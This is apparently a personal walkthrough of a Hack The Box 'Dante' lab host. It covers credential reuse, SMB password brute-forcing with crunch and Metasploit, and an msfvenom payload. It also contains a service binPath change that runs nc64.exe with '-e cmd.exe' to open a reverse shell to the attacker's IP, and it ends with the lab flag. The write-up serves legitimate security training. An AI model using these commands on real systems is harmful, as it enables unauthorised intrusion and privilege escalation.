 Host [172.16.1.101](http://172.16.1.101):

![](./_resources/HTB_Pro_Lab_Dante.resources/image.33.png)

![](./_resources/HTB_Pro_Lab_Dante.resources/image.70.png)

The credentials for FTP are:
```
tmentrso 65RedBalloons
```

For some reason, hydra, msfconsole could not guess this despite using the wordlists. I should find out why as I had to manually login with each uname and password from the excel file previously obtained from DC01.

After opening the downloaded file (remote login.txt), I obtained the following information.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.75.png)

The password I found that has '5!' is balthazar's password.:
```
TheJoker12345!
```

Consider user 'tmodle' and the password from the above excel sheet from DC01 as well.

![](./_resources/HTB_Pro_Lab_Dante.resources/image.76.png)

The correct credentials are:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.77.png)
However, there was nothing in there. So I created a wordlist to find the correct smb password to access the account for dharding.:
```
crunch 19 19 -t WestminsterOrange%% -o crunch.txt
```

After running the auxiliary/scanner/smb/smb\_login module with the newly created wordlist, I found the right one.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.78.png)

```
Password: WestminsterOrange17
```

I found a file called qc that when opened, showed the following.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.79.png)
In searching online, I quickly found out about an exploit for this service.:
<https://www.exploit-db.com/exploits/48543>

Command I used in MSF to generate the payload. From here, I need to set lport and lhost and run it to serve it publicly.:
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o IObit.exe
```

In this case, I am unable to transfer the file I created to the machine. I think I need to update THAT policy in order to allow this to actually go through.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.80.png)

It took me a while to understand this. But basically, I need to modify the system path for the vulnerable service so it executes a payload for a reverse shell when it's restarted. To do this, I can upload nc.exe to the Desktop of dharding. From there, I need to change the path to the IOBitUnsvr with the following string.:
```
SC.exe CONFIG IObitUnsvr binPath= "C:\Users\dharding\Desktop\nc64.exe 10.10.16.101 4444 -e cmd.exe"
```
I found out that the reason I was having so much trouble was that I had been using the wrong netcat! I downloaded the nc64.exe and that worked flawlessly.
![](./_resources/HTB_Pro_Lab_Dante.resources/image.81.png)

```
DANTE{Qu0t3_I_4M_secure!_unQu0t3}
```
